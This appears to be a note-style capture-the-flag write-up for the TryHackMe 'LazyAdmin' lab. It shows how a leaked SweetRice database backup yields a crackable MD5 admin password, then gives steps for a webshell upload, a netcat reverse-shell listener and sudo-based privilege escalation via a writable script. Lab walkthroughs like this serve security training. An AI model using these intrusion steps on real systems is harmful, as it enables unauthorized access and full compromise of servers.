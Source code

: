 TryHackMe LazyAdmin

Sonntag, 6. Dezember 2020

23:03

![lazyAdmin](/images/lazyAdmin.PNG "LazyAdmin")

Flags:
======

<table>
<thead>
<tr class="header">
<th>#</th>
<th>Found</th>
<th>Entry</th>
</tr>
</thead>
<tbody>
<tr class="odd">
<td>User Flag</td>
<td>/home/itguy/user.txt</td>
<td>Port 88 - /content/as</td>
</tr>
<tr class="even">
<td>Root Flag</td>
<td>/root/root.txt</td>
<td>Port 88 - /content/as</td>
</tr>
</tbody>
</table>

 
=

Enumeration
===========

<table>
<thead>
<tr class="header">
<th>IP#1</th>
</tr>
</thead>
<tbody>
<tr class="odd">
<td><table>
<thead>
<tr class="header">
<th>Port</th>
<th><blockquote>
<p>Service</p>
</blockquote></th>
<th><blockquote>
<p>Software/<br />
Version</p>
</blockquote></th>
<th><blockquote>
<p>Credentials</p>
</blockquote></th>
<th><blockquote>
<p>Done</p>
</blockquote></th>
<th><p>Flag/Step</p>
<p>Solution</p></th>
<th>Misc</th>
</tr>
</thead>
<tbody>
<tr class="odd">
<td>22</td>
<td>SSH</td>
<td>OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)</td>
<td><table>
<thead>
<tr class="header">
<th>Username</th>
<th>???</th>
</tr>
</thead>
<tbody>
<tr class="odd">
<td>Password</td>
<td>???</td>
</tr>
</tbody>
</table></td>
<td>yes</td>
<td> </td>
<td>Rabbit Hole </td>
</tr>
<tr class="even">
<td>80</td>
<td>HTTP</td>
<td>Apache httpd 2.4.18 ((Ubuntu))</td>
<td> </td>
<td>yes</td>
<td><p>User.txt</p>
<p>Root.txt</p></td>
<td> </td>
</tr>
</tbody>
</table></td>
</tr>
</tbody>
</table>

 

<table>
<thead>
<tr class="header">
<th>80</th>
</tr>
</thead>
<tbody>
<tr class="odd">
<td><p>$gobuster dir -w /usr/share/wordlists/dirb/big.txt -u</p>
<table>
<thead>
<tr class="header">
<th>Path</th>
<th>Contents</th>
<th>Misc</th>
</tr>
</thead>
<tbody>
<tr class="odd">
<td>/content</td>
<td><p>[…]</p>
<p>Powered by Basic-CMS.ORG SweetRice.</p></td>
<td> </td>
</tr>
<tr class="even">
<td>/content/attachment/</td>
<td>Landing Plattform for upload</td>
<td> </td>
</tr>
<tr class="odd">
<td>/content/inc</td>
<td>SweetRice Source &amp; Binaries</td>
<td> </td>
</tr>
<tr class="even">
<td>/content/inc/mysql_backup</td>
<td><ol type="1">
<li><blockquote>
<p>$cat mysql_bakup_20191129023059-1.5.1.sql</p>
</blockquote></li>
</ol>
<ol start="2" type="1">
<li><blockquote>
<p>ISERT INTO `%--%_options` VALUES(\'1\',\'global_setting\',\'a:17:{s:4:\\"name\\";s:25:\\"Lazy Admin&amp;#039;s Website\\";s:6:\\"author\\";s:10:\\"Lazy Admin\\";s:5:\\"title\\";s:0:\\"\\";s:8:\\"keywords\\";s:8:\\"Keywords\\";s:11:\\"description\\";s:11:\\"Description\\";s:5:\\"admin\\";s:7:\\"<strong>manager</strong>\\";s:6:\\"passwd\\";s:32:\\"<strong>42f749ade7f9e195bf475f37a44cafcb</strong>\\";s:5:\\"close\\";i:1;s:9:\\"close_tip\\";s:454:\\"&lt;p&gt;Welcome to SweetRice - Thank your for install SweetRice as your website management system.&lt;/p&gt;[…]</p>
</blockquote></li>
</ol>
<ol start="3" type="1">
<li><blockquote>
<p>$hashcat -a 0 -m 0 42f749ade7f9e195bf475f37a44cafcb /usr/share/wordlist/rockyou.txt</p>
</blockquote></li>
<li><blockquote>
<p>$hashcat --show</p>
</blockquote></li>
</ol>
<blockquote>
<p> </p>
<p>42f749ade7f9e195bf475f37a44cafcb:<strong>Password123</strong></p>
<p> </p>
</blockquote></td>
<td><table>
<thead>
<tr class="header">
<th>Username</th>
<th>manager</th>
</tr>
</thead>
<tbody>
<tr class="odd">
<td>Password</td>
<td>Password123</td>
</tr>
</tbody>
</table></td>
</tr>
<tr class="odd">
<td>/content/as</td>
<td><p>SweetRice Management Page</p>
<p> </p>
<ol type="1">
<li><blockquote>
<p>Login with credentials manager:Password123</p>
</blockquote></li>
<li><blockquote>
<p>Go to Media Center -&gt; Upload and upload custom webshell e.g shell.php</p>
</blockquote></li>
<li><blockquote>
<p>$nc -lvnp &lt;port&gt;</p>
</blockquote></li>
<li><blockquote>
<p>Start shell by clicking on the uploaded file or move to /content/attachment/&lt;uploadedFile&gt;</p>
</blockquote></li>
</ol>
<ol start="5" type="1">
<li><blockquote>
<p>$cat /home/itguy/user.txt</p>
</blockquote></li>
</ol>
<p> </p>
<p><strong>Privilege Escalation</strong></p>
<ol type="1">
<li><blockquote>
<p>$sudo -l</p>
</blockquote></li>
<li><blockquote>
<p>$cat /home/itguy/backup.pl</p>
</blockquote></li>
<li><blockquote>
<p>$echo "/bin/sh" &gt; /etc/copy.sh</p>
</blockquote></li>
<li><blockquote>
<p>$sudo perl /home/itguy/backup.pl</p>
</blockquote></li>
<li><blockquote>
<p>$cat /root/root.txt</p>
</blockquote></li>
</ol>
<blockquote>
<p> </p>
</blockquote></td>
<td><p>User.txt Flag</p>
<p>Root.txt Flag</p></td>
</tr>
<tr class="even">
<td> </td>
<td> </td>
<td> </td>
</tr>
</tbody>
</table></td>
</tr>
</tbody>
</table>

 

Users
=====

<table>
<thead>
<tr class="header">
<th>ID</th>
<th>Username</th>
<th>Password</th>
<th>Hash</th>
<th>Hash Algorithm</th>
<th>Misc</th>
</tr>
</thead>
<tbody>
<tr class="odd">
<td>-</td>
<td>manager</td>
<td>Password123</td>
<td>42f749ade7f9e195bf475f37a44cafcb</td>
<td><p>Possible algorithms: md5</p>
<p> </p></td>
<td>Administrator</td>
</tr>
</tbody>
</table>

 

**Legend**

<table>
<thead>
<tr class="header">
<th> </th>
<th><blockquote>
<p>Step Solution/Finding</p>
</blockquote></th>
</tr>
</thead>
<tbody>
<tr class="odd">
<td> </td>
<td><blockquote>
<p>Rabbit Hole</p>
</blockquote></td>
</tr>
</tbody>
</table>
